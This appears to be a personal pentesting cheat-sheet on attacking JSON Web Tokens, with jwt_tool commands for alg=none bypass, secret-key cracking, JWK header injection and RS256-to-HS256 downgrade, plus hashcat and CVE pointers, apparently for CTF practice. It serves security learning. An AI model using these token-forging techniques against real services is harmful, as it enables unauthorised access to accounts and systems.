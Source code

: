 # JSON Web Token (JWT)

[![hacking_jwt](../../../../_badges/hacktricks/hacking_jwt.svg)](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)

<div class="row row-cols-lg-2"><div>

JSON Web Token (JWT) are used to represent signed data. They are commonly used in for authentication and authorization.

The format is: `<algo>.<data>.<signature>`. Each part is base64 encoded, so the final string is URL-safe while it can be easily decoded.

The data is signed using a secret key. If the secret key is compromised, everyone can sign messages 🔏.

The signature is used to detect if data was tampered with.
</div><div>

They can be transferred and found in:

* 📚 Headers (`Authorization: Bearer <JWT>`)
* 🍪 Cookies
* 📄 URL Parameters
* 💼 Request Body
* ...

📚 A common handy wordlist is [jwt-secrets](https://github.com/wallarm/jwt-secrets).
</div></div>

<hr class="sep-both">

## Common JWT Attacks

[![hacking_jwt](../../../../_badges/hacktricks/hacking_jwt.svg)](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)

<div class="row row-cols-lg-2"><div>

You can use [jwt-tools](https://github.com/ticarpi/jwt_tool) <small>(4.8k ⭐)</small> to attack JWT:

```shell!
$ git clone https://github.com/ticarpi/jwt_tool.git $HOME/tools/jwt_tool
$ chmod +x $HOME/tools/jwt_tool/jwt_tool.py
$ ln -s $HOME/jwt_tool/jwt_tool.py $HOME/.local/bin/jwt_tool
$ jwt_tool -h
```

```ps
$ jwt_tool 'jwt'             # decode
$ jwt_tool 'jwt' -T          # encode
```

You can also use [jwt.io](https://jwt.io/).

#### None Algorithm

[![jwt_introduction](../../../../_badges/rootme/web_server/jwt_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Introduction)

We may be able to disable the tampering check by setting the signature algorithm to 'none.'

```ps
$ jwt_tool 'jwt' -T -X a     # attack 'algo=none'
```
</div><div>

#### Secret Key Brute Forcing

[![jwt_weak_secret](../../../../_badges/rootme/web_server/jwt_weak_secret.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Weak-secret)

The secret key may be weak and brute forced:

```ps
$ jwt_tool 'jwt' -T -p "key" # use secret key
$ jwt_tool 'jwt' -C -d /tmp/jwt.secrets.list # crack key
```

#### JWK Header Injection

[![jwt_header_injection](../../../../_badges/rootme/web_server/jwt_header_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Header-Injection)

```ps
$ jwt_tool 'jwt' -T -X i     # attack 'jwk header injection'
```

#### JWK Public Key

When using RS256 algorithm, JWT uses the private key to edit data and the public key to verify integrity. We may be able to perform a downgrade attack to HS256 and only use a public key for both.

```ps
$ jwt_tool 'jwt' -S hs256 -k public.key -T
```

</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [PortSwigger JWT](https://portswigger.net/web-security/jwt)
* `hashcat -a 0 -m 16500`
* Attach algo=none means signature is ignored.
* [JWT](https://jwt.io/), (Bearer, encrypted token), modern alternative to (apache) HTTP basic auth? (from=35). HTB/170. [RFC](https://tools.ietf.org/html/rfc7617).
* [CVE-2022-39227](https://github.com/user0x1337/CVE-2022-39227) for `python-jwt<3.3.4`: given a token, forge fake tokens
</div><div>
</div></div>